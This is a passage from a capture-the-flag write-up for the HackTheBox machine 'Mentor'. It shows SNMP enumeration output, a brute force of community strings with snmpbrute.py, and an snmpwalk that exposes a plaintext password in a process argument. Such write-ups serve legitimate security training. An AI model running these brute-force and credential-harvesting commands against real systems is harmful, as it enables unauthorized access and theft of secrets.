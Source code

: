 ```console
SNMPv2-MIB::sysORUpTime.3 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.4 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.5 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.6 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.7 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.8 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.9 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.10 = Timeticks: (1) 0:00:00.01
HOST-RESOURCES-MIB::hrSystemUptime.0 = Timeticks: (288909) 0:48:09.09
HOST-RESOURCES-MIB::hrSystemDate.0 = STRING: 2024-12-18,19:3:39.0,+0:0
HOST-RESOURCES-MIB::hrSystemInitialLoadDevice.0 = INTEGER: 393216
HOST-RESOURCES-MIB::hrSystemInitialLoadParameters.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-56-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
HOST-RESOURCES-MIB::hrSystemNumUsers.0 = Gauge32: 0
HOST-RESOURCES-MIB::hrSystemProcesses.0 = Gauge32: 228
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = INTEGER: 0
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

There isn't much in that SNMP output that's useful.

I tried brute-forcing other community strings with `onesixtyone`, but [apparently](https://0xdf.gitlab.io/2023/03/11/htb-mentor.html#snmp---udp-161) it only works with protocol v1. However, `SNMP-Brute` handles v2c:

```console
$ python3 ./snmpbrute.py -b -a -t mentor.htb
...
Identified Community strings
        0) 10.10.11.193    internal (v2c)(RO)
        1) 10.10.11.193    public (v1)(RO)
        2) 10.10.11.193    public (v2c)(RO)
        3) 10.10.11.193    public (v1)(RO)
        4) 10.10.11.193    public (v2c)(RO)
Finished!
```

The community string `internal` gives up a list of processes, including what looks like a process with a password argument:

```console
$ snmpwalk -c internal -v2c -m ALL mentorquotes.htb | tee snmp-internal.txt
MIB search path: /home/e/.snmp/mibs:/usr/share/snmp/mibs:/usr/share/snmp/mibs/iana:/usr/share/snmp/mibs/ietf
...
HOST-RESOURCES-MIB::hrSWRunParameters.2112 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
```

Password: `kj23sadkj123as0-d213`

#### Subdomain Fuzzing
